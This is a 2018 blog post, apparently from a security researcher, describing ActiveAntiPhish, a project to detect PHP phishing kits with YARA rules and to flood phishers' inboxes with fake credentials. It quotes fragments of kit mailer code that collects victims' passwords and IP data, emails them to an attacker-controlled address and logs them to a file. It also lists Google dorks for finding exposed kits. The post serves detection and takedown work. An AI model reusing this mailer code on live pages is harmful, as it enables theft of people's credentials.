 ```yaml
---
layout: post
title: ActiveAntiPhish - Protecting Stolen Credentails Using Saturation
author: Chad Baxter
date: 2018-06-16
tags: ["phishing", "databases", "security", "phishkits"]
---
```


<h3>Background</h3>

Over the past week I've started a new project involving phishing kits. These nasty little things are usually zip files that a hacker has paid for on an underground website or forum. They take many forms and are used to phish for many different types of credentials. Most phishers target the end user by sending an email that looks like it comes from the company with which they have an account when in fact the link in the email is a link to a phishing kit.

These kits are all created in PHP and all have the same coding style. It seems the underground phishing community has a standard they think is best which they follow faithfully. Because there are _thousands_ of different versions of these kits I thought it would be hard to write a good YARA rule to detect them. Turns out this "tried and true" format persists across almost 90% of them.

With [ActiveAntiPhish](https://www.github.com/LogoiLab/ActiveAntiPhish) my goal is to create an application that allows for easy detection of phishing kits found on your servers as well as those that show up in your emails. If you were to somehow accidentally input your credentials into a phishing kit ActiveAntiPhish's goal is to make it really hard for the phisher to use those credentials.

<h3>PhishKit Design</h3>

A phishing kit is commonly comprised of three parts, the _index_, the _blocker_, and the _mailer_.

<h4>The Index</h4>

The index page is usually a cloned page of the target website with the form fields changed to point to the _mailer_. For simple accounts these files are generally single page in style with a redirect to the official site. For banking phishkits the _index_ may be three to four separate pages for grabbing things like routing number, account number, pins, credit card info, and more.

<h4>The Blocker</h4>

Copy-pasting is virulent in the phishing community. The blocking script is the most common code among phishkits. This simple PHP script uses things like headers and user agent strings to determine if the computer visiting the page is a bot. The most commonly blocked bots are those by security companies and anti-phishing efforts like [PhishTank](phishtank.com). Often phishers block entire IP ranges of countries they do not want credentials from. These vary based on the phisher.

<h4>The Mailer</h4>

This chunk of code is the main interest of ActiveAntiPhish as it is what exfiltrates stolen user info. It commonly has four parts with another debug-like part that shows up occasionally.

The first part gathers info about the user such as IP, country of origin, and User Agent string. An example of this section can be found here:

```php
$country = visitor_country();
$ip = getenv("REMOTE_ADDR");
$_SESSION['UserName'] = $_POST['UserName'];
$port = getenv("REMOTE_PORT");
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate=date("D M d, Y g:i a");
```

`visitor_country()` in this case is a function that uses publicly available geolocation APIs to get the victim's country of origin.

The second part creates the log, this compiles all of the gathered info including the stolen credentials into a multi-line PHP string. This log contains lots of identifiable strings and is usually what ActiveAntiPhish uses to identify the _mailer_. An example log section:

```php
$message .= "-----------  ! +Citi LOGIN ! xDD+ !  -----------\n";
$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Email Address        : ".$_POST['username']."\n";
$message .= "Password               : ".$_POST['passwd']."\n";
$message .= "IP Address             : ".$ip."\n";
$message .= "-----------  ! +nJoY+ !  -----------\n";
```

Phishers like to tag their logs for an unknown reason. These tags are very identifiable. The structure of dashes with tags in the middle is common among all _mailers_. The YARA rules currently in use by ActiveAntiPhish trigger on this format as well as unique tags.

The third part is where the _mailer_ gets its name. It composes the headers and addresses to send an email to a throwaway account that the phisher controls. It looks a little something like this:

```php
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
```

As you can see there are a lot of unique strings here, in fact phishers seem to like 1337SpEaK. This makes it easy to detect.

The fourth part is often the redirect. This is an attempt to make the phishing page look legit by either logging you into or forwarding you on to the homepage of the impersonated site:

```php
header("Location: https://login.microsoftonline.com/");
```

This part of the _mailer_ is only helpful in identifying phishkits when used in conjunction with the above indicators.

The fifth and optional part is usually used to debug the mailer or is used as a fallback in case the throwaway account gets banned. It creates a local file and writes the log that would have been sent via email to the file. Phishkits that do this help us better understand who is being targeted as usually the log files are publicly readable. This allows me to contact those affected, especially those who had their corporate or university email stolen. The fallback option looks something like this:

```php
$handle = fopen("script.txt", "a");
fwrite($handle, $message);
fclose($handle);
```

<h3>PhishKit Collection</h3>

The method I use for gathering phishkits is usually a list of Google dorks. [PhishTank](phishtank.com) is a good source if you're willing to hunt. Things to look for when hunting for phishkits are open directories with odd file and folder names. For example, here is a Google dork for Microsoft phishkits:

```
intitle:"Index of" insite:"onedrive" ".zip"
```

Once you find one you can continue to find more by using filenames you find to be common. Another common Microsoft phishkit dork:

```
intitle:"Index of" insite:"m1cr0" ".zip"
```

These dorks work because of the way phishers exploit vulnerable web servers. Often times a phisher finds a way of uploading a PHP webshell, this can be through poorly implemented upload pages or exploits (looking at you revslider). They then use the webshell to upload a zip file of the phishkit. They later extract the zip file and their kit is ready to go. Most phishers forget to delete the zip file after they're done. This allows us to download a copy of their phishkit. We now know how to interact with their _mailer_ script which allows us to automate saturation of phisher's email account.

<h3>Saturation</h3>

Most throwaway accounts are GMail accounts the reason for this is unknown. But this allows us to make some educated guesses as to the limits of the account. GMail only allows its users to receive about 60 emails per minute (or an email a second). ActiveAntiPhish will be able to saturate the phisher's account with ease simply by calling the _mailer_ script. It is not known how GMail handles email flooding. But we can assume the server sending the email gets banned when it reaches the daily limit. That's 1 email a second, for every minute of 24 hours or __86,400__ emails. Once we reach this point the GMail documentation is very clear that the server is banned for 24 hours for the first offense.

This is important because if the phisher does not have a fallback email or logfile they have lost the ability to collect logs for the day while also having their inbox full of fake credentials. This would give a targeted company or individual time to contact webhosts and domain registrars to get the phishing page taken down.

The whole point of saturation is to increase the noise in the signal to noise ratio. This makes it difficult for a phisher to verify stolen credentials, making it very likely for them to just abandon that email account. Because the fake traffic is generated by the site with the _mailer_ the computer running ActiveAntiPhish is not likely to get banned.

<h3>Closing</h3>

The indicators of compromise that can be gleaned from phishkits allow us to build robust YARA rules for detecting their presence on our networks. The rules used by ActiveAntiPhish can be found in the repo here: [phishkit.yar](https://www.github.com/LogoiLab/ActiveAntiPhish/master/rules/).

ActiveAntiPhish is still under heavy development and is currently in the research phase. Any contributions are welcome. You can find the repo [HERE](https://www.github.com/LogoiLab/ActiveAntiPhish).
